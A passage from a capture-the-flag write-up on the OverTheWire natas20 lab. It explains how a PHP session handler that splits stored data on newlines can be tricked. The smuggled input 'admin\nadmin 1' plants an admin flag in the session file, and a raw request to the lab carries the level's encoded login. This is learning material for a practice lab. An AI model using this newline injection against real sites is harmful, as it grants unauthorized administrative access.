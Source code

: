 ```php
}

?>
```

Thought it had something todo with the SID. Could not figure it out.

Used a write up to get a hint for the newline \(\n\).

Everything in $\_SESSION is added to data with a newline delimiter by the mywrite function. Data is then written to a session file.

```php
ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
```

[https://www.php.net/manual/en/function.explode.php](https://www.php.net/manual/en/function.explode.php)  
explode — Split a string by a string

Everything written in session file is read by the myread function.

Spaces in files are used by explode to split the string. as long as the first part is not equal to "" the first part and seccond part of the explode are added back in the global $\_SESSION variable.

```php
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```

This means if we write a session file that has 2 lines like this.

```text
name somename
admin 1
```

the read function will do the following.

```php
$_SESSION[name] = somename
$_SESSION[admin] = 1
```

this will then pass the print\_credentials check. How do we do this ? Add a newline to the input.

admin\nadmin 1

```text
POST /index.php HTTP/1.1
Host: natas20.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Authorization: Basic bmF0YXMyMDplb2ZtM1dzc2h4YzVid3RWbkV1R0lscjdpdmI5S0FCRg==
Connection: close
Referer: http://natas20.natas.labs.overthewire.org/index.php
```